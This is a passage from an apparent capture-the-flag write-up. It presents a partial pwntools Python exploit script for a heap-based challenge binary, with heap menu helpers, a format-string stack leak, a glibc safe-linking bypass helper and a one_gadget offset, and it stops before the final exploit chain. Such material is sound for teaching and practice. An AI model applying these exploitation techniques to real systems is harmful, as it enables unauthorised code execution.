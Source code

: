 Here is my Python script to automate this process:

```py
from pwn import *

host = "sie2op7ohko.hackday.fr"
port = 1337

exe = ELF("./chall_patched")
libc = ELF("./libc.so")

context.binary = exe

def wait_menu():
    r.recvuntil(b"----- DEFUSER -----")

def send(data):
    r.sendlineafter(b"> ", data)

def alloc(slot, size, data, only_trigger_malloc = False):
    wait_menu()
    send(b"1")
    send(str(slot).encode())
    send(str(size).encode())

    if not only_trigger_malloc:
        send(data)

def edit(slot, data):
    wait_menu()
    send(b"2")
    send(str(slot).encode())
    send(data)

def free(slot):
    wait_menu()
    send(b"3")
    send(str(slot).encode())

def greet(name):
    wait_menu()
    send(b"4")
    send(name)
    greetings = r.recvline()
    return greetings.decode()

def leak_stack(offset1, offset2):
    fstr = f"%{offset1}$lx %{offset2}$lx"
    greetings = greet(fstr.encode())
    leak1, leak2 = greetings.split(" ")[-2:]

    return int(leak1, 16), int(leak2, 16)

def safe_linking(address, fd):
    return fd ^ address >> 12

r = remote(host, port)

# these offsets are found using gdb
slots_offset = 24
libc_addr_offset = slots_offset + 11 # __libc_start_main+242

one_gadget = 0xdf54f

```